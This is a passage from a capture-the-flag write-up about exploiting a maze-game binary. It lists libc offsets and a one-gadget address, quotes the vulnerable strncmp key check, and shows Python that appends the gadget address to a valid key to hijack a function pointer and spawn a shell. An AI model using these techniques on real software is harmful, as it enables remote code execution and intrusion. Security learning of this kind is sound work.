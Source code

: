 Once again I ran the binary in `gdb` to find out which of the constraints are met. The first one I found was `[rsp+0x30] == NULL` so I modified the previous script accordingly.

```python
if remote_exploit:
    # remote libc-2.23.so
    libc_start_main_instr_offset = 240
    libc_start_main_offset = 0x20740
    libc_rce_gadget_offset = 0x4526a
else:
    # local libc-2.28.so
    libc_start_main_instr_offset = 235
    libc_start_main_offset = 0x23fb0
    libc_rce_gadget_offset = 0x448a3
```  

##### Spawn a shell

Now it was time to get back to my original maze solver script, combine it with the address leakage script and modify it to submit a poisonous key to overwrite the offset of the `error` function with the address of the RCE gadget.

I looked at the vulnerable code once again.

```c
printf("The chest is locked. Please enter the key:\n> ");
fflush(stdout);
fgets(key, 40, stdin);
if ( !strchr(key, 10) )
{
  while ( fgetc(stdin) != 10 ) ;
}
fflush(stdin);
v2 = strlen(s1);
if ( !strncmp(s1, key, v2) )
  break;
puts("Sorry but that was the wrong key.");
```

Since it compared the submitted key with the expected one using `strncmp` function with the length of expected key I could simply append the calculated address of the RCE gadget to the key I found in the maze and it still passed the comparison test successfully.

```python
# find rce gadget address
libc_rce_gadget_addr = libc_base_addr + libc_rce_gadget_offset
print 'libc_rce_gadget_offset: ', hex(libc_rce_gadget_offset)
print 'libc_rce_gadget_addr:   ', hex(libc_rce_gadget_addr)

def create_poisonous_key(found_key, target_addr):
    return found_key + p64(target_addr)
```

The last missing piece was to force the game to jump to the overwritten address. It was easily accomplished by entering `0` as the choice in the main prompt.
